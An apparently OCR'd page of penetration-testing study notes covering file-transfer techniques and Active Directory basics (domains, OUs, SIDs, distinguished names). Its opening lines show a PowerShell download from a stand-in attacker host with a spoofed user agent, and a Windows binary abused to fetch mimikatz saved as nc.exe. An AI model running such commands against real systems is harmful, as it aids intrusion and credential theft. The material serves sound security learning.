 ```
             Safari/533.16

# Command
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
IWR http://$ATTACKER/file.exe -UserAgent $UserAgent -OutFile 
```

- Intel Win10
  - fxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"

## ACTIVE DIRECTORY DOMAIN SERVICE (AD DS)
### Definitions
  - Domain Controler: server that runs AD. Provides AD services + control all
  - AD: repository/database where this users/computers are
  - Organizational Unit (OU): containers inside AD, classify user/machines. Apply policies
    - Group Policy Objects
      - network distribution: gpupdate /force
      - SYSVOL: shared networ
  - AD Domains: collection of components within AD
  
- Attributes = characteristics
  - hostname, DNS name, displayName ...
- Schema: classes users/computer
- Domain = logical group of objects (users, computers, UO, groups)
- Tree: several domains that begins at a single root domain
- Forest: collection of domains
  - collection of trees + different namespace
  - Trust Relationshing
- Enterprese Admins: over all domains
- GUID = Global Unique Identifier
  - for every object

```
# Basic Structure
INLANEFREIGHT.LOCAL/
├── ADMIN.INLANEFREIGHT.LOCAL
│   ├── GPOs
│   └── OU
│       └── EMPLOYEES
│           ├── COMPUTERS
│           │   └── FILE01
│           ├── GROUPS
│           │   └── HQ Staff
│           └── USERS
│               └── barbara.jones
├── CORP.INLANEFREIGHT.LOCAL
└── DEV.INLANEFREIGHT.LOCAL
```

- Security Principals
  - authenticateble, manage access to resources
- **Security Identifier (SID)**
  - For security principal or security group
- Distinguished Name (DN)
  - full path to o object 
  - cn=pat, ou=IT, ou=Finance, dc=domain, dc=local
- Relative Distinguished Name (RDN)
  - component of DN
  - cn=pat, ou=IT, ou=Finance, dc=domain, dc=local != cn=pat, dc=domain, dc=local
- **sAMAAccountName**
  - users logon = pat
- userPrincipalName
  - pat@domain.local
- Flexible Single Master Operation